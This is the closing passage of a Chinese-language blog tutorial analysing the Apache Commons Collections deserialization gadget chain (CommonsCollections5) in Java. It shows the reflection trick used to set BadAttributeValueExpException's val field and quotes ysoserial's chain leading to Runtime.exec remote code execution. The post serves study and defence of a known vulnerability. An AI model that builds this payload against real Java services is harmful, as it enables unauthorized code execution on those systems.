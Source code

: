 ```java
            e.printStackTrace();
        }
    }
}
```
需要注意的是，在声明BadAttributeValueExpException对象时，并没有直接传入entry参数，而是用反射赋值。
```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(entry);
Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException, entry);
```
因为BadAttributeValueExpException的构造函数就会判断是否为空，如果不为空在序列化时就会执行toString()，那么反序列化时，因为传入的entry已经是字符串，所以就不会触发toString方法了。
```java
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```
![20200119192839](https://y4er.com/img/uploads/20200119192839.png)

## 总结
这里抄一下ysoserial的 `Gadget chain`
```java
/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
	Requires:
		commons-collections
 */
```
个人觉得这个洞最经典的地方还是在`InvokerTransformer`的rce构造，着实考验对反射的理解和运用。

参考链接：
- https://www.xmanblog.net/java-deserialize-apache-commons-collections/
- https://www.freebuf.com/vuls/175252.html
- https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**